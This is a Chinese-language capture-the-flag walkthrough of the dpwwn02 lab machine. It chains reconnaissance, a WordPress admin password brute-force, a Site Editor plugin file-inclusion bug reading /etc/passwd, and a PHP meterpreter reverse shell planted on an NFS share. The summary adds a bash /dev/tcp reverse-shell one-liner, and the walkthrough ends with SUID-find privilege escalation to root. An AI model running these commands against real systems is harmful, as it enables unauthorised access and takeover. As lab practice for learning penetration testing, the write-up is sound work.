[TOC]

这个靶机遇到了很多问题，是我目前见过事最多的靶机

## 网卡配置

这个靶机我事先没搞懂是什么玩意

它禁用了DHCP服务，并设置了固定的静态IP10.10.10.10

所以最好是把自己的攻击机设置仅主机模式，这样在10.10.10.0/24网段

## 信息收集

```
nmap -p- --min-rate 10000 10.10.10.10
```

得到了80，111，443，2049以及一些陌生端口

依次进行tcp详细扫描和漏洞扫描





从111端口和2049端口可以得知，我们差以尝试挂载

通过

```
gobuster dir -u "http://10.10.10.10" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,zip
```

只看到/wordpress一个有效目录，在上面的漏洞扫描中也发现了额外一个/wordpress/wp-login.php目录

## 测试

### 80，443端口

这两端口的页面都一样，源码也没什么特殊的

那就直接从wordpress下手

```
wpscan --url http://10.10.10.10/wordpress
```



显示插件可能有漏洞，且需要WPScan API Token，自己在网上注册了一个

```
wpscan --url http://10.10.10.10/wordpress --api-token YOUR_TOKEN -e vt,vp,u
```



- 存在一个admin用户

```
wpscan --usernames admin --passwords /usr/share/wordlists/rockyou.txt --url http://10.10.10.10
```

但是没有结果

- 插件漏洞是一个本地文件包含漏洞，可以直接

  ```
  searchsploit Site Editor 1.1.1
  ```

  

也可以根据给出的References直接搜索



利用方法就是看Proof of Concept

利用ajax_path参数打开文件，查看文件内容

- 这里我有一点疑惑解释一下，既然是查看文件内容，为什么有时候放进去一个php文件可以执行

  如果是纯文本的话就直接输出，不会交给PHP解释器去分析

```
http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

页面显示正确内容，说明可以利用

22端口没有打开，我们想拿到shell只有通过反弹shell，而利用这个漏洞的参数不能直接执行命令，只能传入文件，所以我们需要包含反弹shell的php文件

### 111，2049端口

```
showmount -e 10.10.10.10
```


```
mount -t nfs 10.10.10.10:/home/dpwwn02 --target /mnt/target
```

发现没有内容

```
mount | grep nfs
```



确认挂载成功，操作没问题

尝试在挂载目录上写了php文件，然后通过网页url访问或者curl命令

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.128 LPORT=4444 R > shell.php
```

(-p是--payload)

拿到一个php格式的反弹shell

```
cp shell.php /mnt/target
```

复制到挂载目录

```
msfconsole
use exploit/multi/handler
```

开启handler监听，相当于netcat了

```
set payload php/meterpreter/reverse_tcp
set LHOST 10.10.10.128
exploit
```

这里设置payload，ai的解释是当你执行 `set payload ...` 时，实际上做了三件事：

1. **告诉监听器（Handler）要等谁**：`reverse_tcp` 意味着“靶机主动来找我”（反向连接），所以监听器不往外发包，只坐等连接。
2. **告诉监听器怎么解密/解析数据**：Meterpreter 的流量默认带有异或加密和长度头，`handler` 会根据 payload 类型加载对应的解码插件。
3. **告诉框架后续用什么接口交互**：连接建立后，你会进入 `meterpreter >` 提示符（而不是普通的 `/bin/bash`）。如果设错了（比如设成 `windows/shell`），即使连上了，交互也会出错。



运行后拿到meterpreter，先尝试得到功能完整的终端

```
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

拿到完整终端后整理信息

```
find / -perm -u=s -type f 2>/dev/null
```



发现find命令有suid权限



直接拿过来运行

成功拿到root

## 总结

- 这个靶机中间有点小插曲 在上传挂载目录php文件时，直接访问该文件，也就是/home/dpwwn02/shell.php一直报错，找老师问问，尝试先

  ```
  echo '<?php phpinfo();?>' > /mnt/target/info.php
  ```

  将info.php放在挂载目录上，结果访问还真就直接进去了，后续的步骤也就通畅了，可能和缓存有关系吧，也或许是命令不对（我命令应该是没一点问题的），所以以后建议先上传一个phpinfo（）试试，这样能判断是哪出了问题

- 另外有些人用的不是/php/meterpreter/reverse_tcp,直接用最简单的bash都能成功，也就是

  ```
  <?php exec('bash -c "bash -i &> /dev/tcp/10.10.10.128/4444 0>&1"');?>
  ```

  在我的phpinfo（）能运行后我立马尝试这个，可以使用，但是nc监听一直自动断开，后来才改用php/meterpreter/reverse_tcp,但是好像不能用nc监听，可能因为是meterpreter流量有加密，，还是交给Metasploit解决最好
